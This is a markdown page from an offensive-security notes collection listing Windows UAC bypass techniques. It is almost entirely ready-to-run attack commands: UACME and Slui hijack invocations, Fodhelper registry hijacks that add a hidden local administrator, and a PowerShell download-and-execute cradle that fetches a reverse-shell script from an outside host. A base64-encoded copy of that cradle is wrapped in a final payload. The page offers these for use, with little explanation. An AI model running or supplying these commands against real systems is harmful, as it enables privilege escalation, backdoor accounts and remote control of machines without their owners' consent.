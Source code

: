 ```yaml
---
description: Common UAC Bypass Checklists
---
```


# UAC Bypass

A UAC bypass is a method to circumvent User Account Control, a security feature in Windows that asks for confirmation before making major changes. Bypasses typically trick trusted programs into running malicious code with high privileges.

### UACME

* [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)
* [https://github.com/yuyudhn/UACME-bin](https://github.com/yuyudhn/UACME-bin)

{% code overflow="wrap" %}
```powershell
# Add new user
Akagi64.exe 61 "net user asuka asuk@1337 /add"
# Reverse shell
Akagi64.exe 61 "E:\Exploits\shell.exe"
```
{% endcode %}

### Fodhelper

Run at Powershell.

* Add New Administrator

{% code overflow="wrap" %}
```powershell
# Add user "asuka"
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force; New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force; Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "net user asuka asuk@1337 /add" -Force; Start-Process "C:\Windows\System32\fodhelper.exe"
# Add asuka to Local Administrator
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force; New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force; Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "net localgroup Administrators asuka /add" -Force; Start-Process "C:\Windows\System32\fodhelper.exe"

# Delete registry value
reg delete HKCU\Software\Classes\ms-settings\ /f
```
{% endcode %}

* Reverse shell

reverse-shell.ps1

{% code overflow="wrap" %}
```powershell
powershell.exe -NoP -ExecutionPolicy Bypass -Command "iex ((New-Object Net.WebClient).DownloadString('http://172.16.8.1/OSEP/research/reverse-shell.ps1'))"
```
{% endcode %}

Convert to Base64 with UTF-16LE char encode.

{% code overflow="wrap" %}
```bash
cat reverse-shell.ps1 | iconv -t UTF-16LE | base64 -w0
```
{% endcode %}

Final Fodhelper payload:

{% code overflow="wrap" %}
```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force; New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force; Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "powershell.exe -Enc cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBOAG8AUAAgAC0ARQB4AGUAYwB1AHQAaQBvAG4AUABvAGwAaQBjAHkAIABCAHkAcABhAHMAcwAgAC0AQwBvAG0AbQBhAG4AZAAgACIAaQBlAHgAIAAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADcAMgAuADEANgAuADgALgAxAC8ATwBTAEUAUAAvAHIAZQBzAGUAYQByAGMAaAAvAHIAZQB2AGUAcgBzAGUALQBzAGgAZQBsAGwALgBwAHMAMQAnACkAKQAiAAoA" -Force; Start-Process "C:\Windows\System32\fodhelper.exe"
```
{% endcode %}

Delete registry value after command executed:

{% code overflow="wrap" %}
```powershell
reg delete HKCU\Software\Classes\ms-settings\ /f
```
{% endcode %}

### Slui File Handler Hijack LPE

* [https://bytecode77.com/slui-file-handler-hijack-privilege-escalation](https://bytecode77.com/slui-file-handler-hijack-privilege-escalation)
* [https://github.com/gushmazuko/WinBypass/blob/master/SluiHijackBypass.ps1](https://github.com/gushmazuko/WinBypass/blob/master/SluiHijackBypass.ps1)

{% code overflow="wrap" %}
```powershell
powershell -ep bypass
. .\SluiHijackBypass.ps1
SluiHijackBypass -command "cmd.exe" -arch 64
# or
SluiHijackBypass "C:\xampp\htdocs\reverse-shell.exe"
```
{% endcode %}
